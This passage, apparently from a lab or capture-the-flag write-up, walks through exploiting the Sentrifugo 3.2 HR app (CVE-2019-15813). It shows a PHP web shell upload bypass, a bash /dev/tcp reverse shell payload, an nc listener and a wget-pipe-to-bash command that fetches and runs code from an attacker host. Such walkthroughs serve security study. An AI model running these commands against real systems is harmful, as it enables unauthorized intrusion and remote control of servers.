 
![evidence](./static/15-burpsuit-payload.png)
:
```http
{"filedata":{"original_name":"shell.php",
"new_name":"1674740065_3_shell.php"}}
```
And now the file should be in the uploads directory, and I found it in `/sentrifugo/public/uploads/expense_receipt_temp/`.

When I use the `curl` command:
```shell
$ curl "http://192.168.2.30/sentrifugo/public/uploads/
> expense_receipt_temp/1674740065_3_shell.php?cmd=id"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Then I can conclude that the Sentrifugo HR app is vulnerable, and I can perform an authenticated file upload restriction bypass attack.

## Exploitation

Reverse shell, steal credentials and escalate privileges with a service. Given I can access `http://192.168.2.30/sentrifugo`, and I was able to recover the password of user `chuck` because of an email, and `Sentrifugo 3.2` is vulnerable to `CVE-2019-15813` and the user `chuck` can upload files in the expense section, then I can perform a reverse shell. When I store the reverse shell payload in the `rs.sh` file:
```shell
bash -c 'bash -i >& /dev/tcp/192.168.2.31/1234 0>&1'
```
And I open an `HTTP` server with Python3:
```shell
$ python3 -m http.server 8000
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I use the web shell to download the `rs.sh` file, and run it in memory:
```shell
$ curl "http://192.168.2.30/sentrifugo/public/uploads/
> expense_receipt_temp/1674740065_3_shell.php?
> cmd=wget%20-O-%20192.168.2.31:8000/rs.sh|bash" \
> -b "PHPSESSID=412l22phl4ur9i1c0cu26fp983"
```
Then I get the reverse shell as the user `www-data`:
